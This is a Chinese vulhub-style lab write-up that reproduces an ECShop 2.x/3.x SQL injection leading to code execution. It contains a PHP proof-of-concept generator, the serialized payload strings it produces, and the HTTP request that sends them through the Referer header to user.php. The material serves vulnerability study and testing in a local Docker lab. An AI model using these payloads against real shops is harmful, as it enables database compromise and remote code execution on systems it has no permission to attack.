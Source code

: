 # ECShop 2.x/3.x SQL注入/任意代码执行漏洞

## 漏洞描述

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- https://paper.seebug.org/691/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。

注册普通用户user。

## 漏洞复现

POC脚本：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

```
POC for ECShop 2.x: 
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}554fcae493e564ee0dc75bdf2ebf94ca

POC for ECShop 3.x: 
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: [POC HERE]
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

2.x的执行结果：

![image-20220222231029623](./images/202202222310789.png)

3.x的执行结果（使用3.x的POC执行不成功，使用2.x的POC执行成功）：

![image-20220222232542804](./images/202202222325965.png)


